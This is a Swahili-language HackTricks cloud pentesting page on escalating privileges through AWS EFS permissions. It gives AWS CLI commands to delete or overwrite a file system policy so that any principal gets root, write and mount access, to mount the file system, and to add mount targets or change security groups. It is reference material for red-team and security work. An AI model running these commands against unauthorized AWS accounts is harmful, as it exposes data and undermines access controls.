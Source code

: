 # AWS - EFS Privesc

{% hint style="success" %}
Jifunze na zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Maelezo zaidi kuhusu EFS yanapatikana hapa:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Kumbuka kwamba ili kufunga EFS unahitaji kuwa kwenye mtandao wa sehemu ambapo EFS inaonekana na kuwa na ufikiaji wake (vikundi vya usalama). Ikiwa hii inatokea, kwa chaguo-msingi, utaweza kufunga, hata hivyo, ikiwa inalindwa na sera za IAM unahitaji kuwa na ruhusa za ziada zilizotajwa hapa ili kupata ufikiaji.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Kwa ruhusa yoyote kati ya hizo, mshambuliaji anaweza **kubadilisha sera ya mfumo wa faili** kukupa ufikiaji wake, au tu **kuifuta** ili ufikiaji wa **chaguo-msingi** upewe.

Kufuta sera:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Kuibadilisha:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Kwa kibali hiki, mshambuliaji ataweza **kufunga EFS**. Ikiwa kibali cha kuandika hakijatolewa kwa kila mtu anayeweza kufunga EFS, atakuwa na **upatikanaji wa kusoma tu**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
### `elasticfilesystem:CreateMountTarget`

Ikiwa unashambuliaji yuko ndani ya **mtandao wa sehemu** ambapo **hakuna lengo la kufunga** la EFS. Anaweza tu **kuunda moja kwenye eneo lake** na haki hii:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Athari Inayoweza Kutokea:** Privesc isiyo ya moja kwa moja kwa kutambua habari nyeti kwenye mfumo wa faili.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Katika hali ambapo mshambuliaji anagundua kwamba EFS ina lengo la kufunga katika eneo lake la mtandao lakini **hakuna kikundi cha usalama kinachoruhusu trafiki**, anaweza tu **kubadilisha hilo kwa kubadilisha vikundi vya usalama vilivyochaguliwa**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Athari Inayowezekana:** Privesc isiyo ya moja kwa moja kwa kutambua habari nyeti kwenye mfumo wa faili.
